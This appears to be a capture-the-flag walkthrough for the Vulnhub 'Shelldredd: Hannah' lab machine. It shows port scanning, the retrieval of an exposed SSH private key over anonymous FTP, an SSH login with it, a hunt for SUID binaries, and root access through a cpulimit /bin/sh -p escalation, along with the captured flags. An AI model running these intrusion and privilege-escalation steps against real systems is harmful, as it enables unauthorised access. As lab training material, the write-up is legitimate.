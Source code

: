 ```yaml
---
title: "Shelldredd: Hannah Vulnhub CTF Walkthrough"
---
```

The vulnhub virtual machine can be found [here](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/)

nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-25 05:27 EDT
Nmap scan report for 192.168.56.110
Host is up (0.0027s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
{% endhighlight %}

Logging into the FTP service anonymously and snooping around:

{% highlight terminal %}
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> 
{% endhighlight %}

We've been given a private key. let's use that to log into the ssh server
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ chmod 700 id_rsa                                                           130 ⨯
                                                                                     
┌──(kali㉿kali)-[~/ctfs/shelldredd-hannah]
└─$ ssh hannah@192.168.56.110 -i id_rsa -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Sep  5 09:20:42 2020 from 192.168.1.140
hannah@ShellDredd:~$
{% endhighlight %}

I'm in. lets take a look around for flags and test for a few low hanging fruit. 

first flag: 
{% highlight terminal %}
hannah@ShellDredd:~$ cat user.txt 
Gr3mMhbCpuwxCZorqDL3ILPn
{% endhighlight %}


{% highlight terminal %}
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
{% endhighlight %}


Here we can exploit the SUID binary [cpulimit](https://gtfobins.github.io/gtfobins/cpulimit/). 

{% highlight terminal %}
hannah@ShellDredd:~$ cpulimit -l 100 -f -- /bin/sh -p
Process 823 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
# whoami
root
# cd
# ls
user.txt
# cd ../../root
# ls
root.txt
# cat root.txt
yeZCB44MPH2KQwbssgTQ2Nof
# 
{% endhighlight %}
